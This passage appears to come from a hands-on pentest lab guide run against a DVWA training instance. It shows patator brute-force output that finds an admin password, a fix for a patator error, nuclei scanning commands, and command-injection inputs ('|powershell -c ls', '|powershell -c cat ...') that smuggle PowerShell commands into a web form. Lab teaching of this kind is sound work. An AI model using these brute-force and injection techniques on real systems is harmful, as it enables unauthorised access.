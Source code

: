 ```bash
09:01:15 patator    INFO - -----------------------------------------------------------------------------
09:01:17 patator    INFO - 302  424:0          0.012 | password:admin                     |    15 | HTTP/1.1 302 Found
09:01:18 patator    INFO - Hits/Done/Skip/Fail/Size: 1/22/0/0/234, Avg: 6 r/s, Time: 0h 0m 3s
09:01:18 patator    INFO - To resume execution, pass --resume 3,3,3,3,3,3,2,2
```

### fix patator

- if you get the following error `<class 'pycurl.error'> (49, "Couldn't parse CURLOPT_RESOLVE entry ''!")` then edit `/usr/bin/patator`

```bash
vim /usr/bin/patator
```

- search for `pycurl.RESOLVE` and comment out the line

```
#fp.setopt(pycurl.RESOLVE, [resolve])
```

## WebApp scanner

- install the WebApp scanner

```bash
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest

export GOROOT=/usr/lib/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```

- scan the DVWA WebApp

```bash
nuclei -u http://<windows-privat-ip-address>:8080/dvwa
```

## Exploit command injectionin WebApp

- login to the DVWA WebApp `http://<windows-public-ip-address>:8080/dvwa` with with username `admin` and password `password`
- go to the Command Injection `http://<windows-public-ip-address>:8080/dvwa/vulnerabilities/exec`

- execute the first command

```powershell
|powershell -c ls
```

- read the text file

```powershell
|powershell -c cat installed-with-user.txt
```
